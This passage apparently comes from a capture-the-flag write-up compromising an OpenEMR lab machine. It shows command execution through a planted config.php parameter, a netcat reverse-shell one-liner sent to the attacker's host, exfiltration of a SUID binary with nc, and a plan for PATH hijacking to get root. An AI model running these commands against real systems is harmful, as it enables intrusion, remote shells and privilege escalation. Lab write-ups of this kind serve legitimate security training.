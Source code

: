 With the following curl request we can verify that our command was interpreted correctly.

```bash
root@kali:~$ curl -s http://192.168.179.163/openemr/sites/default/config.php?z=id
uid=479(apache) gid=416(apache) groups=416(apache)
```

Then, we need to start a netcat listener and execute the following curl request.

```bash
root@kali:~$ curl -s http://192.168.179.163/openemr/sites/default/config.php?z=$(urlencode -m 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.179.1 443 >/tmp/f')
```

We have a reverse shell with apache privileges.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.163] 43690
sh: no job control in this shell
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'   
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.1$ whoami
whoami
apache
```

Listing the SUID binaries an uncommon binary called healthcheck catches my attention.

```bash
bash-4.1$ find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/healthcheck
...
```

I downloaded the binary to the attacking machine.

```bash
root@kali:~$ nc -vlnp 5656 > healthcheck

bash-4.1$ nc 192.168.179.1 5656 < /usr/bin/healthcheck
```

I decompiled the binary with cutter, and I could see a series of commands running without the absolute path, we can hijack the path of these commands to get root.

![](/assets/images/healthcare/screenshot-8.png)

